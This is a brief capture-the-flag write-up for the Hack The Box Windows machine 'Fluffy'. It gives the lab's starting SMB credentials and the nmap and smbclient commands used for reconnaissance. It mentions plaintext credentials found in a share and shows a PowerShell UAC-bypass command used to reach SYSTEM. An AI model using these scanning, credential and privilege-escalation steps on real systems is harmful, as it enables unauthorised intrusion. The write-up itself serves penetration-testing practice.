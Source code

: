 ### 📝 Machine Information

As is common in real-life Windows pentests, you start **Fluffy** with valid SMB credentials  
`j.fleischman / J0elTHEM4n1990!`.

---

## 🧭 Recon

```
~$ nmap -sC -sV -oA fluffy 10.10.11.70
```

---

## 🪪 SMB Enumeration

```bash
smbclient //10.10.11.70/public
```

A file in **public** revealed plaintext creds, granting a low-privileged shell.

---

## 👤 User Access

```
C:\\Users\\fluffy\\Desktop\\user.txt
```

---

## 🔼 Privilege Escalation

WinRM UAC-bypass to SYSTEM:

```powershell
Invoke-PsUACme -Force
```

---

## 🏁 SYSTEM

```
C:\\Users\\Administrator\\Desktop\\root.txt
```

![HTB Fluffy Badge](https://www.hackthebox.com/storage/machines/8f90c43bd1ae2c8b328c38e62a8d03d7.png)